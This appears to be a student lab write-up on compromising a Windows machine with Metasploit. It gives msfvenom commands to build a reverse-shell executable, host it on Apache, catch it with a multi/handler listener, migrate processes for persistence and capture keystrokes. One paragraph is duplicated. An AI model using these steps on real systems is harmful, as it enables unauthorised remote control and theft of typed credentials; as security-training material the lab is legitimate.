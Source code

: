 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
192.168.21.149
![image](https://github.com/user-attachments/assets/7b869d60-cb55-450c-81bf-3fd324265234)
Find the attackers ip address using ifconfig
MSFVENOM
![image](https://github.com/user-attachments/assets/e91f1005-56e9-4500-bfa1-ede428bcc227)
Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## copy the fun.exe into apache/var/www/html/
![image](https://github.com/user-attachments/assets/fa061764-517c-4b63-a97a-962e9e58639d)
copy fun.exe start apache server sudosystemctl apache2 start check the status of apache2
## msfconsole
![image](https://github.com/user-attachments/assets/bc82b301-51bd-4311-9ac6-efd91c268bd3)
invoke msfconsole Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## exploitMultihander,setpayload,exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Parrot machine
![image](https://github.com/user-attachments/assets/befbca4b-8ca2-4598-b0f7-a289989929ca)

![image](https://github.com/user-attachments/assets/1288bd99-b0c6-4e64-b8ed-125448af34a3)

![image](https://github.com/user-attachments/assets/201deae9-165f-4d68-8d01-4cba4b16eeaa)

![image](https://github.com/user-attachments/assets/3b31b894-1393-42bc-98a6-531c3f4d2c29)

![image](https://github.com/user-attachments/assets/0eb473ef-55c7-404c-8140-c10524f8a6a0)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/de3dd753-b571-4296-8abb-5676ded516ee)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/user-attachments/assets/592091a1-e738-4ca4-b836-e10055b4df3f)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/25a2a116-7316-4de2-9000-4d0d5bd9cd96)

![image](https://github.com/user-attachments/assets/e8fe9495-53cc-4a5a-b735-4e95f00c8a4f)










## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
